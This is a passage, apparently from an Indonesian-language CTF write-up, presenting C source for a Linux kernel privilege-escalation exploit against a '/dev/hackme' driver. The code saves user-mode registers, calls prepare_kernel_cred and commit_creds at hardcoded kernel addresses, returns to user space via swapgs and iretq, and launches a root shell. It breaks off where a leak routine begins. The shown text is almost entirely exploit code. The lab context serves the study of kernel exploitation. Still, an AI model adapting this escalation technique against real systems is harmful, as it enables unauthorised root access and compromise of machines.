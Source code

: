 ini kode lengkapnya

```
#define _GNU_SOURCE_
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
#include<fcntl.h>
#include<string.h>

#define DEV "/dev/hackme"

unsigned long user_ss, user_cs, user_rsp, user_rflags;
unsigned long kbase, cookie;
int fd;

void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_rsp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}

void shell()
{
    const char *argv[] = {"/bin/sh",NULL};
    const char *envp[] = {NULL};
    puts("ROOOT");
    execve("/bin/sh",argv,envp);
}
unsigned long user_rip = (unsigned long)shell;

void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor rdi, rdi;"
	    "call rax; mov rdi, rax;"
	    "movabs rax, 0xffffffff814c6410;" //commit_creds
	    "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_rsp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}

void leak()
{
```